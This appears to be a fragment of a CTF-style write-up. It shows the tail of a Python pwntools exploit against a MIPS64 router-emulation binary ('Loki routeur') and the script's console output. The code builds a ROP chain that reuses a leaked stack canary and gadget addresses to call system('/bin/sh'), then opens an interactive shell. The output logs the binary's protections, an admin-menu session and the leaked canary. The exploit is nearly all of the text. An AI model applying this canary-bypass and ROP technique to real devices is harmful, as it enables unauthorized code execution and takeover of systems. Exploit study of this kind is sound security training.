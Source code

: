 ````python


# Perform ROP

buf = b'a' * 24
buf += p64(canary)
buf += b'b' *24
buf += p64(ra_ld_s0_s1_jmp_ra_addr)
buf += p64(jmp_s1_addr) # s0
buf += p64(system_addr) # s1
buf += b'b' * 8
buf += p64(move_t9_s0_ld_a0_0x38_addr) # ra
buf += b'c' * 0x38
buf += p64(bin_sh_addr) # a0
target.sendline(buf)

target.interactive()
````

output : 

````shell
└─$ python3 exploit_MIPS.py

[+] Opening connection to localhost on port 1337: Done
[!] Did not find any GOT entries
[*] 'vuln'
    Arch:     mips64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 'libc.so.6'
    Arch:     mips64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
b'*** Welcome to Loki routeur ***\n0 - QUIT\n1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'Enter Admin password: \n#>'
b'Hello you are logged as Admin\n\x1b[0;31m*** Admin Menu ***\n0 - QUIT\n1 - Quit admin menu\n2 - Change WIFI Key\n#ADM#>'
b'Enter new password\n#ADM#>'
b'New password is : 11111111111111111111111\n\x1b[0;31m*** Admin Menu ***\n0 - QUIT\n1 - Quit admin menu\n2 - Change WIFI Key\n#ADM#>'
b'\x1b[0m0 - QUIT\n1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'Interface\n\teth0 is up\n\tl0 is up\n\twlan0 is up\n0 - QUIT\n1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'


Perform LEAK CANARY


Canary: 0x64c11c1ad91ebd00

b'1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'\nEnter Wifi Password : \n#>'


````